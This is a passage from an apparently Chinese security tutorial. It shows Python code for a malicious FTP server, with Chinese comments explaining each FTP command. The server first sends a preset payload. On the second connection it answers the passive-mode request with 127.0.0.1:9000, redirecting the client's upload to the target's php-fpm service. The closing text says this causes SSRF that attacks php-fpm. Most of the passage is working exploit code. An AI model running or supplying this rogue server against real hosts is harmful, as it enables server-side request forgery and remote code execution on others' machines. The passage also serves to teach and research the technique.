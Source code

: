 ```bash
    if count == 1:
        conn.send(b"215 \n")
    else:
        conn.send(b"200 \n")

    print(conn.recv(20))  # SIZE /123\r\n  客户端询问文件/123的大小
    if count == 1:
        conn.send(b"213 3 \n")  
    else:
        conn.send(b"300 \n")

    print(conn.recv(20))  # EPSV\r\n'
    conn.send(b"200 \n")

    print(conn.recv(20))   # PASV\r\n  客户端告诉服务端进入被动连接模式
    if count == 1:
        conn.send(b"227 127,0,0,1,4,210\n")  # 服务端告诉客户端需要到哪个ip:port去获取数据,ip,port都是用逗号隔开，其中端口的计算规则为：4*256+210=1234
    else:
        conn.send(b"227 127,0,0,1,35,40\n")  # 端口计算规则：35*256+40=9000

    print(conn.recv(20))  # 第一次连接会收到命令RETR /123\r\n，第二次连接会收到STOR /123\r\n
    if count == 1:
        conn.send(b"125 \n") # 告诉客户端可以开始数据连接了
        # 新建一个socket给服务端返回我们的payload
        print("建立连接!")
        conn2, address2 = sk2.accept()
        conn2.send(payload)
        conn2.close()
        print("断开连接!")
    else:
        conn.send(b"150 \n")
        print(conn.recv(20))
        exit()

    # 第一次连接是下载文件，需要告诉客户端下载已经结束
    if count == 1:
        conn.send(b"226 \n")
    conn.close()
    count += 1
```

运行上述脚本，一个恶意 ftp 服务就起来了：

[![](assets/1698897074-10e494ce4e8f629181a45e21373a483a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134743-9253cd1c-b2e5-1.png)

这个脚本做的事情很简单，就是当客户端第一次连接的时候返回我们预设的 payload；当客户端第二次连接的时候将客户端的连接重定向到 127.0.0.1:9000，也就是目标主机上 php-fpm 服务的端口，从而造成 SSRF，攻击其 php-fpm。
